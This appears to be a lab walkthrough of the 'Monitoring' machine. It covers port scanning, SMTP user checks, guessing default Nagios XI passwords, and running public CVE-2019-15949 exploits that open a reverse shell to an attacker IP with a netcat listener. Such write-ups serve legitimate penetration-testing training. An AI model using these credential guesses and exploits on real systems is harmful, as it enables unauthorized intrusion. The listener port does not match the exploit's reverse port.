 # Monitoring

| Name        | Monitoring                    |
| ----------- | ----------------------------- |
| Dificultad: | Easy                          |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

## Host
```shell
192.168.196.136
```
## Enumeration
### Nmap
```shell
nmap -Pn 192.168.196.136
nmap -Pn 192.168.196.136 -sC -sV
nmap -Pn 192.168.196.136 -p- --min-rate=1000

PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
389/tcp open  ldap
443/tcp open  https

5667/tcp open  unknown

```
- Port 5667 is a port related with the Nagios service
### SMTP
```shell
telnet 192.168.196.136 25

VRFY root
```
- We confirm the existence of an user called root
### Web Enumeration
#### Port 80
![[00-Assets/01-Monitoring-3.png]]
We can search for default credentials and we found that the admin user is called "nagiosadmin" but the password is stablished while installing the service, then we can try some common passwords:
```shell
nagiosadmin:nagiosadmin
nagiosadmin:password
nagiosadmin:admin

Dave
```
- We can't continue, looks like the connections has been blocked but we find a new possible user

We know that another port for web service is open, let's try it.
#### Port 443
```shell
nagiosadmin:admin

nagios XI 5.6.0
```
![[00-Assets/01-Monitoring.png]]
- We could log in and we found the version of the Nagios service

## Foothold
If we start searching for exploit for this Nagios version we can find the following exploit:
### CVE-2019-15949 - php
- https://github.com/jakgibb/nagiosxi-root-rce-exploit
```shell
php nagios_exp.php --host=192.168.196.136 --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.45.152 --reverseport=8080
```
- We tried to run the PoC but some errors keep appearing. We can search for a way to fix them and we find that we need to install the following `php` libraries:
```shell
sudo apt install php-curl
sudo apt install php-dom
```

Now we need to run the PoC again:
#### PoC
```shell
php nagios_exp.php --host=192.168.196.136 --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.45.152 --reverseport=8080
```
- If we run the `--ssl=true` flag we couldn't connect to the listener
#### Listener
```shell
nc -lnvp 8001
```

![[00-Assets/01-Monitoring-4.png]]


### CVE-2019-15949 - python
- https://github.com/hadrian3689/nagiosxi_5.6.6
This python PoC also worked.
```shell
python3 exp.py -t 'http://192.168.196.136/' -b /nagiosxi/ -u nagiosadmin -p admin -lh 192.168.45.152 -lp 8001
```



